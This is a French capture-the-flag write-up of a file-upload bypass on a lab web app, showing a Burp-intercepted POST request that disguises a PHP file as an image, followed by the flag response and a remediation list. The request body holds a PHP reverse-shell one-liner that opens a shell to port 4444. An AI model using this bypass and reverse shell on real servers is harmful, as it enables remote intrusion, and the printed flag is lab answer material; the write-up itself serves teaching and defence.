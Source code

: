 # Upload exploit 

## Exploitation

Lors d'un upload de fichier la requete POST qui suit comprend plusieurs parametres qui sont checkés tels que :
	filename 
	Content-Type
	le magic-byte

Pour bypass un upload de fichier nous allons avoir besoin de BurpSuite pour interrompre l'envoi de la requete et la modifier a la volée
On changeras le contenu de l'image pour y mettre du code en php (par exemple) et on garderas le Content-Type de facon a ce que le serveur croie recevoir une image.

http://192.168.122.55/?page=upload

request :

```
POST /?page=upload HTTP/1.1
Host: 192.168.122.55
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:71.0) Gecko/20100101 Firefox/71.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------118712806221434122761445428627
Content-Length: 545
Origin: http://192.168.122.55
Connection: close
Referer: http://192.168.122.55/?page=upload
Cookie: I_am_admin=68934a3e9455fa72420237eb05902327
Upgrade-Insecure-Requests: 1

-----------------------------118712806221434122761445428627
Content-Disposition: form-data; name="MAX_FILE_SIZE"

100000
-----------------------------118712806221434122761445428627
Content-Disposition: form-data; name="uploaded"; filename="reverseshell.php"
Content-Type: image/jpeg

php -r '$sock=fsockopen("127.0.0.1",4444);exec("/bin/sh -i <&3 >&3 2>&3");'

-----------------------------118712806221434122761445428627
Content-Disposition: form-data; name="Upload"

Upload
-----------------------------118712806221434122761445428627--
```

response :

```html
<pre>
<center>
	<h2 style="margin-top:50px;">
	The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8
	</h2>
<br/>
<img src="images/win.png" alt="" width=200px height=200px>
</center>
</pre>
<pre>
	/tmp/index.php succesfully uploaded.
</pre>
```

## Resolution

Restreindre les types de fichiers acceptés pour le téléchargement: 
	- vérifiez l'extension du fichier et autorisez uniquement le téléchargement de certains fichiers. 
	- Utilisez une approche de liste blanche au lieu d'une liste noire. 
	- Recherchez les extensions doubles telles que .php.png. 
	- Recherchez les fichiers sans nom de fichier comme .htaccess (sur ASP.NET, recherchez les fichiers de configuration comme web.config). 
	- Modifiez les autorisations sur le dossier de téléchargement afin que les fichiers qu'il contient ne soient pas exécutables. 
	- Si possible, renommez les fichiers téléchargés.
